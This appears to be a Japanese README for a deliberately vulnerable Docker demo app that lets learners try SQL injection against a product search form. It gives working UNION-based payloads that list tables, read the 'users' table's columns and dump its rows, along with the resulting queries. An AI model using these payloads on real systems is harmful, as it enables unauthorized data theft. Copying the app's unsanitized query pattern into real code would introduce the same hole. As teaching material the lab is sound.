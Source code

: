 # SQLインジェクションサンプル

SQLインジェクションを実感できるサンプル

## requirements
- docker
- docker compose

## installation
```sh
docker compose up -d
```

上記コマンドでサーバを立ち上げることで、 http://localhost:8000 にアクセスするとページが表示されます。

## インジェクション体験
### ページ概要
このサンプルページは、製品を一覧表示するページです。
このページでは、以下のSQLが実行されています。

```sql
SELECT * FROM products
```

また、製品名をフォームで送信することで、以下のSQLにより検索結果の絞り込みができます。 `{name}` には入力した値が入ります。

```sql
SELECT * FROM products WHERE name LIKE '%{name}%'
```

### テーブルの一覧を取得する
フォームに以下の値を入力することで、テーブルの一覧を取得できます。

```
' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = DATABASE() -- 
```

実行すると以下のような結果になります。



使用しているデータベース名と、テーブル名のリストが表示されました。
よって、このデータベースでは `users` というテーブルがあることが確認できました。

このとき、実行されたSQLはこのようになります。

```sql
SELECT * FROM products WHERE name LIKE '%'
UNION
SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = DATABASE()
-- %'
```

### users テーブルの構造を取得する
同様の方法で、 users テーブルの構造を取得できます。

```
' UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users' AND TABLE_SCHEMA = 'test' -- 
```


`users` テーブルにあるカラムがわかりました。

このとき、実行されたSQLはこのようになります。

```sql
SELECT * FROM products WHERE name LIKE '%'
UNION
SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users' AND TABLE_SCHEMA = 'test'
-- %'
```

### users テーブルの情報を取得する
テーブル名とテーブルの構造がすでに把握できたので、簡単に `users` テーブルの中身を表示できます。

```
' UNION SELECT name, department FROM users -- 
```


このとき、実行されたSQLはこのようになります。

```sql
SELECT * FROM products WHERE name LIKE '%'
UNION
SELECT name, department FROM users
-- %'
```
